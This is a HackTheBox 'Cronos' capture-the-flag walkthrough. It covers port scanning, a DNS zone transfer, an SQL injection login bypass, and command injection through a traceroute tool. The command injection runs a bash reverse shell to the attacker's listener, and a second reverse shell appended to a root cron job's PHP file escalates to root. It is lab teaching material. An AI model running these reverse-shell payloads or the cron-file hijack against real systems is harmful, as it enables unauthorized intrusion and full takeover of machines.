




# HackTheBox Cronos

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)



## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.13 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 22,53,80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.13 -p22,53,80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 09:12 +07
Nmap scan report for 10.10.10.13
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.82 seconds
```

### DNS Server

At port 53, I used `nslooup` to enum ip 10.10.10.13 and got the name server `ns1.cronos.htb`

```
### DNS Enumeration (53) ############################
nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
```

Add domain `ns1.cronos.htb` and `cronos.htb` to file `/etc/hosts` and `dig` enum.

```
┌──(Hades㉿10.10.14.5)-[2.0:21.4]~/scripting
└─$ dig axfr cronos.htb @10.10.10.13

; <<>> DiG 9.16.13-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
<snip>
```

### Laravel Web App

There is defaul Apache page at port 80, but after add domain `cronos.htb` and go to it, I got a web application power by Laravel



Add `admin.cronos.htb`, `www.cronos.htb` to file `/etc/hosts`


```
10.10.10.13 cronos.htb admin.cronos.htb www.cronos.htb ns1.cronos.htb
```



## Foothold

### SQL Injection

At admin page, I try some payload SQLi to bypass authentication and I got it.



### Command Injection

Admin page is Net Tool support `traceroute` server, but in the command box, I inject command `ls` and got the result.


Inject command `bash -c 'sh -i >& /dev/tcp/10.10.14.5/443 0>&1'` and got the remote code execution.

```
┌──(Hades㉿10.10.14.5)-[2.9:23.4]~/walkthrough/hackthebox/cronos
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 53806
sh: 0: can't access tty; job control turned off
$ id    
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

### Scheduled Tasks

Add file `/etc/crontab`, I know that the system running file `/var/www/laravel/artisan` with php command as root.

```
www-data@cronos:/var/www$ cat /etc/crontab
# /etc/crontab: system-wide crontab
<snip>
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Check permission file `/var/www/laravel/artisan`, This file owned by www-data, can easy to modify it.

```
www-data@cronos:/var/www$ ls -lh /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1.7K Apr  9  2017 /var/www/laravel/artisan
```

At simple system command to execute shell code in `/var/www/laravel/artisan`.

```
echo system("bash -c 'sh -i >& /dev/tcp/10.10.14.5/443 0>&1'"); >> /var/www/laravel/artisan
```

Waiting 1 minute, I have root shell at my listener.

```
┌──(Hades㉿10.10.14.5)-[2.9:25.2]~/priescal/PEASS/linPEAS
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 53762
sh: 0: can't access tty; job control turned off
# whoami
root
```